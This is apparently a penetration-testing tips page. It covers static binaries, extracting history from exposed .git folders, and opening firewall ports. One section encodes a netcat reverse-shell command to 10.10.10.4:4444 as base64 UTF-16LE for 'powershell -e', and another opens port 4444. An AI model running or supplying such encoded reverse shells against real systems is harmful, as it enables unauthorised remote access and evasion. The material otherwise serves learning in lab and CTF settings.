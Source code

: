 

# Tips

## Static binaries

Tools like `socat`, `nmap`, ... are rarely installed on machines, however you can upload a static binary and use it.

**List :** ag/the_silver_searcher, binutils, file, ht, nano, nmap, p0fv3, pv(PipeViewer), python, socat, strace, tcpdump, yasm.

**Link :** [github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries)

## Windows UTF16 Little Endian

```bash
$ echo 'c:\windows\temp\nc.exe 10.10.10.4 4444 -e powershell' | iconv -t utf-16le | base64 -w 0
YwA6AFwAdwBpAG4AZAB...

C:> powershell -e YwA6AFwAdwBpAG4AZAB...
```

## Extract files from .git

Using git :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git --work-tree=$(pwd) checkout HEAD^1 # checkout to a random commit
HEAD is now at 82dfc97 Initial Commit for the back-end
$ git --work-tree=$(pwd) checkout master # come back to the last commit
Previous HEAD position was 82dfc97 Initial Commit for the back-end
Switched to branch 'master
$ ls
css  favicon.png  fonts  img  index.html  js  resources
```

Using [GitTools](https://github.com/internetwache/GitTools) :

```bash
$ ls -al web
total 12
drwxr-xr-x  3 xanhacks xanhacks 4096 Feb  7 14:47 .
drwxr-xr-x 12 xanhacks xanhacks 4096 Feb  7 14:47 ..
drwxr-xr-x  6 xanhacks xanhacks 4096 Feb  7 14:45 .git
$ git clone https://github.com/internetwache/GitTools
[...]
$ bash GitTools/Extractor/extractor.sh web/ output/
[...]
[*] Destination folder does not exist
[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[...]
$ ls output
0-70dde80cc19ec76704567996738894828f4ee895
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
$ ls output/0-70dde80cc19ec76704567996738894828f4ee895
commit-meta.txt  css  favicon.png  fonts  img  index.html  js
```

## Add firewall rule

### RedHat / CentOS

```bash
$ firewall-cmd --zone=public --add-port PORT/tcp
$ firewall-cmd --zone=public --add-port 4444/tcp
```

### Windows

```powershell
C:\> netsh advfirewall firewall add rule name="portfwd" dir=in action=allow protocol=tcp localport=20000
Ok.
```
